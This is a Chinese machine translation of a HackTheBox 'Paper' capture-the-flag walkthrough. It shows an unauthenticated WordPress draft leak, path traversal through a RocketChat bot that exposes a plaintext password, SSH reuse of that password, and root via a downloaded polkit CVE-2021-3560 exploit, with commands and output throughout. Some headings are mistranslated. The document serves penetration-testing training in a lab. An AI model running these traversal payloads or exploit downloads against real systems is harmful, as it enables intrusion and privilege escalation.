










# 来自 HackTheBox 的论文—详细演练

> 原文：<https://infosecwriteups.com/paper-from-hackthebox-detailed-walkthrough-8afa8de0ff3e?source=collection_archive---------3----------------------->

## 向您展示完成盒子所需的所有工具和技术。

# 机器信息



黑客盒子里的纸

纸是一种简单的机器。它大致以美版电视剧《办公室》为主题。我们首先通过枚举来找到一个域，这将我们带到一个 WordPress 站点，一个公共漏洞被用来揭示隐藏的草稿。从那里我们可以找到一个子域上的聊天服务器，一个注册 URL 给了我们一个获得访问权限的方法。在 RocketChat 上与机器人交互允许我们使用路径遍历来读取目标区域之外的文件。最终，我们找到了 SSH 访问的凭证，并通过利用 Pwnkit 漏洞获得了 root 用户。

所需的技能是基本的网络和操作系统枚举。学到的技能是利用公共资源，并充分利用它们。

[](https://www.hackthebox.com/home/machines/profile/429) [## 纸张—破解盒子::渗透测试实验室

### 登录 Hack The Box 平台，让您的笔测试和网络安全技能更上一层楼！

www.hackthebox.com](https://www.hackthebox.com/home/machines/profile/429) 

# 初步侦察

像往常一样，让我们从 Nmap 开始:


# 网络服务器

从网络服务器开始。端口 80 和 443 将我们带到同一个测试页面:



web 服务器测试页面

# x-后端-服务器

用 curl X 看标题-Backend-Server 设置为 office.paper:

```
┌──(root💀kali)-[~/htb/paper]
└─# curl -s -v http://10.10.11.143 >/dev/null
*   Trying 10.10.11.143:80...
* Connected to 10.10.11.143 (10.10.11.143) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.11.143
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 403 Forbidden
< Date: Sun, 06 Feb 2022 16:36:56 GMT
< Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
< X-Backend-Server: office.paper
< Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
< ETag: "30c0b-5c5c7fdeec240"
< Accept-Ranges: bytes
< Content-Length: 199691
< Content-Type: text/html; charset=UTF-8
< 
{ [954 bytes data]
* Connection #0 to host 10.10.11.143 left intact
```

将它添加到我们的主机文件中:

```
┌──(root💀kali)-[~/htb/paper]
└─# echo "10.10.11.143 office.paper" >> /etc/hosts
```

# 办公室网站

现在访问网址:



Office.paper 网站

除了这篇文章和对它的评论，网站上没有任何有趣的东西:



在网站上提供线索的评论

尼克告诉管理员删除他的草稿。

# Wordpress 漏洞

如果你看看这个页面的源代码，你会发现这是一个 WordPress 网站。我们还可以使用 Feroxbuster 进行检查:

```
┌──(root💀kali)-[~/htb/paper]
└─# feroxbuster --url http://office.paper                       
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://office.paper
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301        7l       20w      239c http://office.paper/wp-content
301        7l       20w      237c http://office.paper/wp-admin
301        7l       20w      240c http://office.paper/wp-includes
<SNIP>
```

[这个](https://smartwp.com/check-wordpress-version/)向您展示了要获得版本号还需要做些什么:

```
┌──(root💀kali)-[~/htb/paper]
└─# curl -s http://office.paper | grep "generator"
<meta name="generator" content="WordPress 5.2.3" />
```

# Searchsploit

现在使用 searchsploit 查找漏洞:



搜索 WordPress 的 loit 检查

第二个是我们要找的:

```
┌──(root💀kali)-[~/htb/paper]
└─# searchsploit -m multiple/webapps/47690.md
  Exploit: WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts
      URL: https://www.exploit-db.com/exploits/47690
     Path: /usr/share/exploitdb/exploits/multiple/webapps/47690.md
File Type: ASCII text
Copied to: /root/htb/paper/47690.md

┌──(root💀kali)-[~/htb/paper]
└─# cat 47690.md                      
So far we know that adding `?static=1` to a wordpress URL should leak its secret content
Here are a few ways to manipulate the returned entries:
- `order` with `asc` or `desc`
- `orderby`
- `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format
In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content:
```

# html 2 文本

我们可以把 static=1 作为一个参数来查看这个秘密。使用 html2text 使其在终端中更具可读性:

```
┌──(root💀kali)-[~/htb/paper]
└─# apt install html2text             
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
html2text is already the newest version (1.3.2a-28).
0 upgraded, 0 newly installed, 0 to remove and 135 not upgraded.
```

# 查看 Wordpress 草稿

现在用 curl 抓住这个秘密，并传递给 html2text 来阅读它:

```
┌──(root💀kali)-[~/htb/paper]
└─# curl -s http://office.paper/?static=1 | html2text
Skip_to_content
[Blunder_Tiffin_Inc.]
******_Blunder_Tiffin_Inc._******
The_best_paper_company_in_the_electric-city_Scranton!
<SNIP>
# Warning for Michael
Michael, you have to stop putting secrets in the drafts. It is a huge security
issue and you have to stop doing it. -Nick
Threat Level Midnight
A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT
[INT:DAY]
Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His
robotic butler Dwigt….
# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
# I am keeping this draft unpublished, as unpublished drafts cannot be accessed
by outsiders. I am not that ignorant, Nick.
# Also, stop looking at my drafts. Jeez!
<SNIP>
```

我们也可以扫描 vhosts 来找到该子域:

```
┌──(root💀kali)-[~/htb/paper]
└─# gobuster vhost -t 100 -k -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://office.paper
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://office.paper
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/02/06 16:47:28 Starting gobuster in VHOST enumeration mode
===============================================================
Found: chat.office.paper (Status: 200) [Size: 223163]
<SNIP>
```

# Rocketchat

让我们在浏览器中尝试注册 URL:



Rocketchat 注册帐户

注册一个新帐户并选择用户名:



Rocketchat 注册用户名

我们在这里结束:



Rocketchat 主页

唯一可用的聊天是常规，点击它查看讨论:



在一般讨论中聊天

点击“回收工具”,然后点击“信息”,与机器人聊天:



回收利用概况

这个机器人基于 [hubot](https://hubot.github.com/) 。如果我键入 list，我会看到销售文件夹的内容:

```
list

Fetching the directory listing of /sales/
drwxr-xr-x 2 dwight dwight 27 Sep 15 13:03 sale
drwxr-xr-x 2 dwight dwight 27 Jul 3 2021 sale_2
```

这里没有什么有趣的东西，但是您可以进行路径遍历来查看其他文件夹:

```
list sale/../../../../

Fetching the directory listing of sale/../../../../
-rw-r--r-- 1 root root 0 Jan 14 06:07 .autorelabel
lrwxrwxrwx 1 root root 7 Jun 22 2021 bin -> usr/bin
dr-xr-xr-x. 4 root root 4096 Jan 14 06:46 boot
drwxr-xr-x 20 root root 3020 Feb 6 09:40 dev
drwxr-xr-x. 145 root root 8192 Feb 6 09:40 etc
drwxr-xr-x. 3 root root 20 Jan 14 06:50 home
lrwxrwxrwx 1 root root 7 Jun 22 2021 lib -> usr/lib
lrwxrwxrwx. 1 root root 9 Jun 22 2021 lib64 -> usr/lib64
drwxr-xr-x. 2 root root 6 Jun 22 2021 media
drwxr-xr-x. 3 root root 18 Jun 22 2021 mnt<
<SNIP>
```

如果你看看德怀特的家，你会看到一个名为 hubot 的文件夹:

```
list sale/../../../../home/dwight

Fetching the directory listing of sale/../../../../home/dwight
<SNIP>
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 06:58 bot_restart.sh
drwx------ 8 dwight dwight 4096 Sep 16 07:57 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 07:24 .hubot_history
```

查看 hubot 文件夹，我们有许多文件:

```
list sale/../../hubot/

Fetching the directory listing of sale/../../hubot/
drwx--x--x 2 dwight dwight 36 Sep 16 07:34 bin
-rw-r--r-- 1 dwight dwight 258 Sep 16 07:57 .env
-rwxr-xr-x 1 dwight dwight 2 Jul 3 2021 external-scripts.json
drwx------ 8 dwight dwight 163 Jul 3 2021 .git
-rw-r--r-- 1 dwight dwight 917 Jul 3 2021 .gitignore
-rw-r--r-- 1 dwight dwight 296856 Feb 6 15:01 .hubot.log
```

我们可以使用命令文件而不是列表来查看文件的内容。这是。env 文件我们可以在文件夹中看到:

```
file sale/../../hubot/.env

<!=====Contents of file sale/../../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file sale/../../hubot/.env=====>
```

# SSH 访问

我们有一些凭证，发现 dwight 在 SSH 访问中重用了这些凭证:

```
┌──(root💀kali)-[~/htb/paper]
└─# ssh dwight@office.paper                  
dwight@office.paper's password: 
Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$
```

# 用户标志

在我们四处看看之前，让我们先看看用户标志:

```
[dwight@paper ~]$ cat user.txt 
dfb5f17e111d79a99eeaf8cca1f17188
```

# CVE-2021 年至 3560 年

看了一会儿之后，我发现这个盒子上的 root 路径很有趣。也许我错过了一个线索或没有遵循预期的路径，但我发现 CVE-2021–3560，这是另一个 polkit 利用工作。

polkit 的易受攻击版本在[该脚本](https://access.redhat.com/security/vulnerabilities/RHSB-2022-001)中列出。我们可以查看包装盒上的版本:

```
[dwight@paper ~]$ pkaction --version 
pkaction version 0.115
```

从 RedHat 列表中我们知道这是易受攻击的。我在 GitHub 上搜索，发现了[这个](https://github.com/Almorabea/Polkit-exploit)漏洞。切换到 Kali 并抓住它:

```
┌──(root💀kali)-[~/htb/paper]
└─# wget https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py
--2022-02-07 17:12:37--  https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.13...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2434 (2.4K) [text/plain]
Saving to: ‘CVE-2021-3560.py’
CVE-2021-3560.py  100%[=====================================================>]   2.38K  --.-KB/s    in 0s
2022-02-07 17:12:37 (7.27 MB/s) - ‘CVE-2021-3560.py’ saved [2434/2434]
```

在 Kali 上启动一个网络服务器，这样我们就可以把文件拉过来:

```
┌──(root💀kali)-[~/htb/paper]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

切换到盒子，将漏洞拉过来:

```
[dwight@paper ~]$ wget http://10.10.14.12/CVE-2021-3560.py
--2022-02-07 12:15:21--  http://10.10.14.12/CVE-2021-3560.py
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2434 (2.4K) [text/x-python]
Saving to: ‘CVE-2021-3560.py’
CVE-2021-3560.py   100%[======>]   2.38K  --.-KB/s    in 0s      
2022-02-07 12:15:21 (138 MB/s) - ‘CVE-2021-3560.py’ saved [2434/2434]
```

# 根标志

现在运行漏洞攻击成为超级用户:

```
[dwight@paper ~]$ python3 CVE-2021-3560.py 
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse 
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit 
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
[+] User Created with the name of ahmed
[+] Timed out at: 0.008090460803153968
/org/freedesktop/Accounts/User1005
[+] Timed out at: 0.008392264349843527
[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:
    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.
bash: cannot set terminal process group (4354): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper dwight]#
```

很简单，我们是根:

```
[root@paper dwight]# id
uid=0(root) gid=0(root) groups=0(root)
```

让我们抓住旗子来完成盒子:

```
[root@paper dwight]# cat /root/root.txt
8d8bc5dac670529de3817ee328ce64a7
```

完成了。下次见

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—【https://twitter.com/pencer_io】T4
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 6 月 18 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-paper/)*。*